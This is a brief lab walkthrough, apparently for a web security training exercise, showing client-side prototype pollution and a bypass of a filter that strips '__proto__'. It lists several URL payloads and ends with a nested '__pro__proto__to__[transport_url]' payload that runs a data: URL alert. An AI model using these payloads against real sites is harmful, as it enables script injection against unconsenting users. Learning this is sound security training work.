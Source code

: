 
1. Verify that DOM invader wont work;
2. Notice that if you try the common payload `/?__proto__.foo=bar`
3. Your injection will not work;

![](/static/img/Pasted_image_20231202091001.png)
4. Try alternative prototype pollution vectors. For example:

```javascript
/?__proto__[foo]=bar 
/?constructor.prototype.foo=bar
```

5.  Observe that in each instance, `Object.prototype` is not modified.
6. Verify the JavaScript function, notice the following:

![](/static/img/Pasted_image_20231202091402.png)

7. Inject the following payload and verify that now you can inject;

![](/static/img/Pasted_image_20231202091506.png)

8. Search for the `gadget` and exploit with the following payload;

`/?__pro__proto__to__[transport_url]=data:,alert(1);`


![](/static/img/Pasted_image_20231202091601.png)

![](/static/img/Pasted_image_20231202091614.png)